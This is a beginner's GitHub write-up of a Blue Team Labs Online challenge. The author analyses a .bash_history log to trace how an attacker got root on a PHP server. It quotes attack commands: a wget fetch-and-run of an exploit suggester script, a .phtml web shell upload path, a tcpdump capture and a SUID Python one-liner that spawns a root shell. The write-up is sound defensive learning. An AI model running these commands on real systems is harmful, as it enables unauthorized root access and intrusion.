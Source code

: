 🔐 BTLO Challenge: Privilege Escalation (Log Analysis)
This repository contains my beginner-friendly walkthrough of Linux privilege escalation techniques using a virtual lab setup. I explored how to escalate from a normal user to root by exploiting misconfigurations like SUID binaries, sudo permissions, and writable system files. All steps are documented for learning and practice purposes.

This repository documents my solution and analysis of the **Privilege Escalation (Log Analysis)** challenge on [Blue Team Labs Online](https://blueteamlabs.online). In this challenge, I analyzed a `.bash_history` log to trace how an attacker gained unauthorized **root access** on a compromised PHP server.


## 🧩 Challenge Overview

A web server running PHP was compromised, and sensitive data — accessible only to `root` — was leaked. The only evidence provided was a `bash_history` log file. My task was to:

- Analyze the attacker's commands
- Identify how they **escalated privileges**
- Determine which tools and techniques were used



## 🔍 Key Findings

### 👤 1. User Discovery
- The attacker explored `/home/daniel`, revealing a second user account:
  
  ```bash
  cd /home/daniel
  ls -la



⬇️ 2. Exploitation Script Downloaded

They downloaded linux-exploit-suggester.sh, a known privilege escalation enumeration tool:

wget http://<url>/linux-exploit-suggester.sh -O /tmp/suggester.sh
chmod +x /tmp/suggester.sh
./tmp/suggester.sh


📡 3. Network Analysis Using Tcpdump

The attacker used tcpdump, suggesting they were monitoring or capturing network traffic:

tcpdump -i any -nn port 80



🐚 4. Web Shell Bypass Using .phtml

They uploaded a .phtml file — a common trick to bypass .php upload restrictions:

upload.php?file=shell.phtml

This was likely used to establish a web shell before moving to a reverse shell.



🚩 5. Privilege Escalation via SUID Python

The attacker exploited a misconfigured SUID binary — /usr/bin/python — to gain root:

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'

This method is listed on GTFOBins, confirming the privilege escalation technique.




📸 Screenshots

This folder contains supporting screenshots:

linexploit-output.png

suid-python-root.png

tcpdump-use.png

final-whoami-root.png


📁 Folder: /screenshots/




📈 Summary of Attack Flow

1. Gained access via uploaded .phtml web shell

2. Performed local enumeration

3. Discovered user daniel and potential privilege escalation paths

4. Downloaded and ran Linux Exploit Suggester

5. Identified SUID-enabled Python

6. Gained root access using Python SUID GTFOBins method


🔐 Lessons Learned

Logs reveal everything — even .bash_history can expose full attack chains.

SUID misconfigurations are a major privilege escalation vector.

Tools like tcpdump can be used maliciously in post-exploitation scenarios.

Web upload bypasses using extensions like .phtml are still relevant.


📚 References

GTFOBins – Python SUID

PEASS-ng

Linux Exploit Suggester

StumbleSec BTLO Walkthrough

ERBATMAN BTLO Writeup

YouTube on BTLO


✨ Author
Rasheedah Haruna
Beginner Cybersecurity Enthusiast | Log Analyst | PrivEsc Explorer
📬 Connect with me on LinkedIn(www.linkedin.com/in/haruna-rasheedah-62622730b)

🛡️ Educational Purpose Only — Always practice ethical hacking in legal environments.
